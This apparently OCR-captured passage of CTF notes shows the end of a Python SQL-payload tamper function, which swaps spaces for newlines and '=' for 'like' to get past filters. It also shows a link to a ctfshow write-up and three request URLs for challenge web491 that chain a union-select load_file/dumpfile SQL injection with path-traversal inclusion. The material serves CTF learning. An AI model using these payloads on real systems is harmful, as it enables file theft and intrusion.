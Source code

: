 ```python

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

# 其它

## 一

[CTFSHOW\]中期测评WP(差512和514)_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/115739632?ops_request_misc=&request_id=945ca7dd90a24287830bfe59cbe62b21&biz_id=&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~koosearch~default-12-115739632-null-null.268^v1^control&utm_term=ctfshow&spm=1018.2226.3001.4450)

ctfshow  web491

```http
http://1e6526fd-3805-4ddd-bfca-5ba269c93212.chall.ctf.show:8080/index.php?action=clear
```

```http
http://389af0f6-12b5-448f-8e75-8e3c5c172cd4.chall.ctf.show:8080/index.php?action=check&username=1' union select load_file("/flag") into dumpfile "/tmp/4.php"--+&password=1
```

```http
http://389af0f6-12b5-448f-8e75-8e3c5c172cd4.chall.ctf.show:8080/index.php?action=../../../../../../../../tmp/4
```



